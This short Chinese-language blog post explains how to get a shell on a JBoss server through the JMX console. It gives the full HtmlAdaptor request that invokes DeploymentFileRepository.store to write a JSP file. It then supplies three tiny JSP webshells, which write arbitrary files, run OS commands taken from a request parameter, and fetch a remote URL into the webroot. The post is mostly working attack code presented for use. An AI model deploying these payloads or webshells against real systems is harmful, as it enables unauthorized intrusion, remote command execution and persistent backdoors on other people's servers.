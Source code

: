 ```yaml
---
title: "JBoss 本地 Getshell"
date: 2018-08-13T00:00:00+08:00
draft: false
tags: ['jboss']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


Jboss 远程部署 getshell 有时候会爆 `org.jboss.web.tomcat.filters.ReplyHeaderFilter.doFilter` 的错误.

本地 getshell 不需要远程主机, 缺点是只能写特别小的 jsp 马, 太大可能会 400 或者 no response found.

<!--more-->

```
/jmx-console/HtmlAdaptor?action=invokeOpByName&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=upload5warn.war&argType=java.lang.String&&arg1=shell&argType=java.lang.String&arg2=.jsp&argType=java.lang.String&arg3=CONTENT&argType=boolean&arg4=True
```

把 CONTENT 替换成要写入的内容, 注意先要进行一次 url 编码.

给出几个特别小的马.

写 shell, 传参 `?f=test.txt&t=helloworldT`

```
<% if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes()); %>
```

执行命令, 传参 `?i=whoami`

```
<%if(request.getParameter("i")!=null){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>
```

下载文件, 传参 `?f=test.txt&u=http://example.com/test.txt`

```
<% if(request.getParameter("u")!=null){java.io.InputStream in = new java.net.URL(request.getParameter("u")).openStream();byte[] b = new byte[1024];java.io.ByteArrayOutputStream baos = new java.io.ByteArrayOutputStream();int a = -1;while ((a = in.read(b)) != -1) {baos.write(b, 0, a);}new java.io.FileOutputStream(application.getRealPath("/")+"/"+ request.getParameter("f")).write(baos.toByteArray());}%>
```